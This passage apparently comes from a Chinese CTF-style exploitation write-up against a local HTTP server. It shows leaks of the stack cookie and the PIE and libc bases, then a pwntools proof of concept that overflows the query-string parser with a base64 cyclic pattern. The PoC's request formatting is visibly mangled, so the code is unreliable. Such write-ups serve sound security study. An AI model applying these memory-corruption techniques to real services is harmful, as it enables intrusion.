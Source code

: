 现在段在了`printf`调用的地方，查看栈上该处便是`cookie`

[![](https://p1.ssl.qhimg.com/t01a528e49929cea10f.png)](https://p1.ssl.qhimg.com/t01a528e49929cea10f.png)

查看内存布局，顺便把pie_base、libc_base泄漏出来

[![](https://p5.ssl.qhimg.com/t01da4da250d8c02597.png)](https://p5.ssl.qhimg.com/t01da4da250d8c02597.png)

对比基址，确定通过以下这几处可以泄漏`0x0000555555556006-0x0000555555554000 = 0x2006`、`0x00007ffff7a2d830-0x00007ffff7a0d000 = 0x20830`

[![](https://p1.ssl.qhimg.com/t01b27d9a4f5310e61a.png)](https://p1.ssl.qhimg.com/t01b27d9a4f5310e61a.png)

换算一下，得到基址

[![](https://p3.ssl.qhimg.com/t0129f724d190ab789d.png)](https://p3.ssl.qhimg.com/t0129f724d190ab789d.png)



## 0x004 Stack overflow

关于溢出点，找了好久，server设置跟随子进程，跑一下这段poc

```
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

def pwn():
    pl = "QWEwQWExQWEyQWEzQWE0QWE1QWE2QWE3QWE4QWE5QWIwQWIxQWIyQWIzQWI0QWI1QWI2QWI3QWI4"
    pl += "QWI5QWMwQWMxQWMyQWMzQWM0QWM1QWM2QWM3QWM4QWM5QWQwQWQxQWQyQWQzQWQ0QWQ1QWQ2QWQ3"
    pl += "QWQ4QWQ5QWUwQWUxQWUyQWUzQWU0QWU1QWU2QWU3QWU4QWU5QWYwQWYxQWYyQWYzQWY0QWY1QWY2"
    pl += "QWY3QWY4QWY5QWcwQWcxQWcyQWczQWc0QWc1QWc=    "
    req = "GET /?toy=`{``}` HTTP/1.1rn".format(pl)
    s=remote("localhost",1337,level="error")
    s.s(req)

if __name__ == '__main__':
    pwn()
```

子进程崩掉

[![](https://p2.ssl.qhimg.com/t012dc537cfc48a6d48.png)](https://p2.ssl.qhimg.com/t012dc537cfc48a6d48.png)

查看栈回溯，发现在`parse_query_string`开始崩的

[![](https://p4.ssl.qhimg.com/t012df559c8172e456a.png)](https://p4.ssl.qhimg.com/t012df559c8172e456a.png)

重新跟随子进程，停在`base64decode`函数调用的地方
